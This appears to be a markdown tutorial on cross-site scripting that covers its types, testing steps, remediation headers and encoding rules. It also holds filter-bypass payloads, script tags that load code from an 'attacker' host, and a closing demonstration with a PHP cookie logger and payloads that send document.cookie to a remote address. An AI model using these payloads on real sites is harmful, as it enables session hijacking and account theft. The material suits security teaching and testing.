 # XSS

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into trusted website.

XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.

## Impact
Malicious script can access any cookies, session tokens, or other sensitive information

## Types of XSS
- **Stored XSS (Persistent XSS)**:
When an attacker injects malicious code into the vulnerable application and this content is permanently stored in a database. when victims visit a  vulnerable application page with the stored malicious code, that time their browser execute this code and victim get popup message.

- **Reflected XSS (Non-persistent)**:
When an attacker uses a malicious link, phishing email, or another social engineering technique to trap the victim into making a request to the server and this request contains malicious code. when victim click on link then browser receive a reply with the malicious code and executes it. 

- **DOM Based XSS**:
When the web application writes user input to the Document Object Model (DOM), then reads the data from the DOM and executes it in the browser.In DOM based XSS malicious code is not sent to the server which makes it difficult to detect by web application firewalls (WAFs).

## 🔎 How to Find and Test XXS (Black Box Testing)
***1. Detect input vectors. For each web page***
- HTTP parameters
- POST data
- Hidden form field values
- Predefined Radio or Selection values

***2. Analyze each input vector to detect potential vulnerabilities***
- (greater than)>
- <(less than) 
- &(ampersand) 
- '(apostrophe or single quote) 
- "(double quote)
- e. g. <script>alert(123)</script>

***3. POC***
```
<script>alert(document.cookie)</script>
<script>alert(document.location)</script>
```

## HTML Filtered Content
- \n (new line) 
- \r (carriage return) 
- \' (apostrophe or single quote) 
- \" (double quote) 
- \\ (backslash) 
- \uXXXX (unicode values)

## Bypass XSS Filters 
Filters are based on a blacklist, they could not block every type of expressions

### e.g. payload’s:
***1. Different Syntax | Encoding***
```
" onfocus="alert(document.cookie)
"><script >alert(document.cookie)</script >
"><ScRiPt>alert(document.cookie)</ScRiPt>
"%3cscript%3ealert(document.cookie)%3c/script%3e
```
***2. Bypassing non-recursive filtering***
```
<scr<script>ipt>alert(document.cookie)</script>
```
***3. Including external script***
```
<script src="http://attacker/xss.js"></script>
http://example/?var=<SRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>
```

   - https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet (XSS Filter Evasion Cheat Sheet)
   - https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt
   - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection

## ⛑️ Remediation     
### 1. Server-Side validation
   1. [x] ***X-XSS-Protection*** Header
   ```
   X-XSS-Protection: 0                           -> xss filter disabled
   X-XSS-Protection: 1                           -> xss filter enabled and sanitized the page if attack detected
   X-XSS-Protection: 1; mode=block               -> xss filter enabled and prevented rendering the page if attack detected
   X-XSS-Protection: 1; report=<reporting-uri>   -> xss filter enabled and reported the violation if attack detected
   ```
   2. [x] Use ***HTTPOnly*** cookie flag: `Set-Cookie: key=123081792183asjgdhasd; HTTPOnly`

   3. [x] Implement ***Content Security Policy***: `Content-Security-Policy: default-src: 'self'; script-src: 'self' static.domain.tld`
   It's a browser side mechanism which allows you to create source allow lists for client side resources of your web application, e.g. JavaScript, CSS, images, etc. CSP via special HTTP header instructs the browser to only execute or render resources from those sources

***Refrence:*** https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection

### 2. Client(Application)/Server side validation

   1. [x] HTML Encode Before Inserting Untrusted Data into HTML Element Content: `<body>...ENCODE UNTRUSTED DATA BEFORE PUTTING HERE.</body>`

   2. [x] Attribute Encode Before Inserting Untrusted Data into HTML Common Attributes: `<div attr="...ENCODE UNTRUSTED DATA BEFORE PUTTING HERE.">content`

   3. [x] JavaScript Encode Before Inserting Untrusted Data into JavaScript Data Values: `<script>alert('...ENCODE UNTRUSTED DATA BEFORE PUTTING HERE.')</script>'

   4. [x] URL Encode Before Inserting Untrusted Data into HTML URL Parameter Values:`<a href="http://www.website.com?test=ENCODE UNTRUSTED DATA BEFORE PUTTING HERE">link</a>`(when you want to put untrusted data into HTTP GET parameter value)

   * [XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
   * [DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
   * [Functions to Validate your Data](https://www.wordfence.com/learn/how-to-prevent-cross-site-scripting-attacks)


## XSS - Demonstration
Retrieve User Cookie Using XSS
1. Create ***steal.php*** file contect with below code.
```
<?php
$cookie=$_COOKIE['PHPSSID'];
$file=fopen('cookie.txt', 'a');
fwrite($file, $cookie . "\n\n");
?>
```
2. Create ***cookie.txt*** file on same directory.
3. Host ***steal.php*** page publicaly which can accessible through internet.
4. Insert Script on Vulnerable Parameter.
```
<script>document.location="http://hostname/steal.php"</script>
e.g:
<script>document.location="http://192.168.88.128/steal.php"</script>

<img src=a onerror=confirm(document.location="http://192.168.88.130/steal.php?cookie=" + document.cookie;)>

```
